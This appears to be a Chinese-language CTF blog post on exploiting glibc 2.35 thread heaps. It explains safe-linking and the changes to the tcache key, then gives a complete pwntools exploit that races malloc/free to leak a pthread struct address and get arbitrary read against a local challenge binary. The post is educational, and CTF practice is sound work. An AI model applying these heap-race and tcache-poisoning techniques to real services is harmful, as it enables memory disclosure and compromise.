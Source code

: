 ```yaml
---
layout: post
tags: [pwn]
title: "glibc 2.35 thread-heap: arenas 利用手法"
author: wsxk
date: 2025-5-20
comments: true
---
```


- [0. glibc 2.35与 glibc 2.31的区别](#0-glibc-235与-glibc-231的区别)
- [1. arbitrary read](#1-arbitrary-read)
  - [1.1 高版本内核泄露thread stack的方法](#11-高版本内核泄露thread-stack的方法)
- [2. arbitrary write](#2-arbitrary-write)

`thread heap的利用手法多数都是依靠race condition来获取任意地址读写的能力，辅以一些常见的tips即可完成利用`<br>
**任意地址读写的说法其实也适用于其他的利用手法,从这个角度来思考安全问题是很有意义的**<br>
# 0. glibc 2.35与 glibc 2.31的区别<br>
最主要的区别在于移除了`free_hook`等之前非常好用的符号,已经`safe-linking`机制:<br>
参考这篇文章：[https://wsxk.github.io/safelinking/](https://wsxk.github.io/safelinking/)<br>
另外在调试glibc2.35可以发现：glibc2.35中的`tcache->key`部分也发生了修改，不再是`tcache_perthread_struct`了，而是真的随机的值.如下图所示：<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250518105647.png)
总之，`tcache->key`部分已经没有了价值，但是`tcache->next`部分非常有用。<br>

# 1. arbitrary read<br>
**利用arbitrary read可以任意读取.bss段（没有添加PIE）、Thread heap、Thread stack(主要利用第一个线程的栈空间与libc没有间隔)中的数据（前提是知道地址）**<br>
race的利用难度主要在于调试（个人理解）<br>

```python
from pwn import *
import os

#binary_path = "/challenge/babyprime_level1.1"
binary_path = './babyprime_level1.1'
p = process(binary_path)
r1 = remote("127.0.0.1",1337)
r2 = remote("127.0.0.1",1337)

idx = 0
def leak_pthread_struct_addr(r1,r2):
    global idx
    while True:
        if os.fork() == 0:
            for _ in range(100000):
                r1.sendline(b"malloc %d scanf %d AAAAAAAABBBBBBBB free %d"%(idx,idx,idx))
            os.kill(os.getpid(),9)
        for _ in range(100000):
            r2.sendline(b"printf %d" % idx)
        os.wait()
        r1.clean()
        output = r2.clean()
        try:
            result = set(output.split(b"\n"))
            print(result)
            #pause()
            leak  = next(x for x in result if ((b"\x07" in x) and len(x)>=17))
            print(leak)
            leak = u64(leak[9:17].ljust(8,b"\x00"))
            if leak & 0xff != 0:
                print("leak error, try again!!!")
                continue
            break 
        except Exception as e:
            print(f"error:{e}")
            print(f"leak pthread_struct_addr try again!!!")
    idx += 1
    return leak

def arbitrary_read(r1,r2,addr):
    global idx
    r1.clean()
    r2.clean()
    r1.sendline(b"malloc %d malloc %d free %d" %(idx,idx+1,idx+1))
    while True:
        if os.fork() == 0:
            r1.sendline(b"free %d" %(idx))
            os.kill(os.getpid(),9)
        r2.sendline((b"scanf %d "% (idx) + p64(addr)+b"BBBBBBBB\n")*2000)
        os.wait()
        r1.sendline(b"malloc %d printf %d"%(idx,idx))
        r1.recvuntil(b"MESSAGE: ")
        output = r1.recvline().strip(b"\n")
        target = p64(addr).split(b"\x00")[0]
        if output == target:
            break
    r1.sendline(b"malloc %d"%(idx+1))
    r1.clean()
    r1.sendline(b"printf %d"% (idx+1))
    r1.recvuntil(b"MESSAGE: ")
    value = u64(r1.recvline().strip(b"\n").ljust(8,b"\x00"))
    return value

# gdb.attach(p,"continue\n")
# pause()
# r1.sendline(b"malloc 1")
# r1.sendline(b"scanf 1 AAAAAAAABBBBBBBB free 1")
# r2.sendline(b"malloc 2")
# r2.sendline(b"scanf 2 CCCCCCCCDDDDDDDD free 2")
# pause()
pthread_struct_addr = leak_pthread_struct_addr(r1,r2)<< 12
log.success(f"pthread_struct_addr: {hex(pthread_struct_addr)}")
secret = arbitrary_read(r1,r2,(pthread_struct_addr>>12)^0x405460)
log.success(f"secret: {hex(secret)}")
r1.sendline(b"send_flag")
r1.recvuntil(b"Secret: ")
r1.sendline(p64(secret))
output = r1.clean()
print(output)
p.interactive()
```
## 1.1 高版本内核泄露thread stack的方法<br>
时代在变化！高版本内核（具体到多少不清楚）在创建新线程时，第一个线程的`thread stack`空间不再紧邻`libc`，我们需要其他的方法泄露`thread stack`<br>
**核心思路是得知libc的地址后，可以在ld中搜索指向thread stack内存映射区域的指针**<br>

# 2. arbitrary write<br>




<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>